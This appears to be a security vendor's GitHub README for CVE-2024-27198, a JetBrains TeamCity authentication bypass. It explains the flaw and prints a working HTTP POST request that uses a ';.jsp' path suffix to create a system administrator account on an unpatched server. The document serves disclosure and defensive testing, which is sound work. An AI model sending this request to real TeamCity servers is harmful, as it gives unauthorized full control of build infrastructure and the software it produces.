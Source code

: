 # JetBrains TeamCity CVE-2024-27198 PoC Exploit
Recently, JetBrains disclosed a critical vulnerability affecting JetBrains TeamCity CI/CD server products.<br><br>
In this repo, Picus provides a Proof-of-Concept exploit for the CVE-2024-27198 vulnerability.

Test security controls against the CVE-2024-27198 vulnerability exploit 
--------------------------------------
Picus can help you simulate the CVE-2024-27198 vulnerability exploits for free. No setup or signup is required.<br>
Use [Picus Emerging Threat Simulator](https://insights.picussecurity.com/emerging-threat-simulator-announcement?utm_source=github&utm_medium=organic+social&utm_campaign=PLS+Offensive+-+ET+Simulator) and test your defenses in a few clicks.<br> 

If you are looking for more detailed information, check out our blog post: [CVE-2024-27198 and CVE-2024-27199: JetBrains TeamCity Authentication Bypass Vulnerabilities Explained](https://www.picussecurity.com/resource/blog/cve-2024-27198-cve-2024-27199)

CVE-2024-27198 Proof-of-concept (POC)
----------------------
CVE-2024-27198 vulnerability is caused by a CWE-288 weakness found in BaseController class of web-openapi.jar library. When an API endpoint receives a request appended with. jsp, the BaseController class allows the request to bypass authentication.<br><br>
The example HTTP POST request below exploits CVE-2024-27198 vulnerability to add a new administrator user. Note the ";.jsp" located after the API endpoint.

#### Example CVE-2024-27198 Exploit:
```http
POST /notexist?jsp=/app/rest/users;.jsp HTTP/1.1
Content-Type: application/json
Content-Length: 120

{"username": "test", "password": "test", "email": "test", "roles": {"role": [{"roleId": "SYSTEM_ADMIN", "scope": "g"}]}}
```

Disclaimer
----------
©2024 Picus Security <br>
All rights reserved.
